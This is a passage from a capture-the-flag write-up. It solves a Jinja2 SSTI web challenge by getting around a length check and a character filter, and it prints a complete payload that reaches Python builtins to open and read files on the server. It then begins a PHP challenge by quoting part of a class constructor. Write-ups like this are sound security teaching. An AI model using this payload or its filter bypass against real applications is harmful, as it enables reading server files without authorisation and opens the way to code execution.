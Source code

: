 Next it seems that we have to find some payload shorter than 20 chars, but we can notice even though an error is displayed when it is longer, the post is still created. This means we can create a post with a payload longer than 20 chars, then view it to trigger the `ssti`.

Though the post id is not given, it is easily retreiavable by calculating
```python
post_id = sha256((current_user.name+content).encode()).hexdigest()
```
Lastly we need to bypass the restrictive `INVALID` chars.

We can almost exactly follow the payload given [here](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection/jinja2-ssti#without-several-chars)

However, there is some issues because we don't have access to `\` or `x`.

We can bypass this by just hiding `_`s in the request arguments, and referencing them in the payload.

For example, we can use `request|attr("args")|attr("get")("d")` to get the value of `d` in the request arguments, which we can manually set to an underscore for example.

So our payload ends up looking like 

{% raw %}
```python
{% with a=request|attr("args")|attr("get")("d"),b=request|attr("args")|attr("get")("f")%}{%print(request|attr("application")|attr(a~"globals"~a)|attr(a~"getitem"~a)(a~"builtins"~a)|attr(a~"getitem"~a)("open")(b)|attr("read")())%}{%endwith%}
```
{% endraw %}

And we can view it at `/view/e5c478f7e0ea9f7e6dc8bcd722a3c93c4d849397b2e8c25ff283b95a8aa1eaa7?d=__&f=flag.txt`

{% raw %} 
```python
print(hashlib.sha256(('admin'+'{%with a=request|attr("args")|attr("get")("d"),b=request|attr("args")|attr("get")("f")%}{%print(request|attr("application")|attr(a~"globals"~a)|attr(a~"getitem"~a)(a~"builtins"~a)|attr(a~"getitem"~a)("open")(b)|attr("read")())%}{%endwith%}').encode()).hexdigest())
```
{% endraw %}
Generates the hash.
Viewing our post gives the flag.

## Library of <?php - Medium
7 solves - 492 points

### Challenge Description
{: .no_toc }
The flag should show up eventually... Right?

This challenge is a pretty spaghetti code php challenge. But what php code isn't spaghetti lol...

The important part of the code is below.

```php
public function __construct($q, $owner) {
        $this->search = $q;
        if (gettype($q) !== 'string') {
            die('Invalid input');
        }
        $this->validate();
        for ($i = 0; $i < strlen($q); $i++) {
            $this->seed += ord($q[$i]);
        }
        $this->seed = ($this->seed % 1000000) * 1000000;
        $this->calcPage();
        mt_srand($this->seed);
        $this->owners[$owner] = uniqid();
```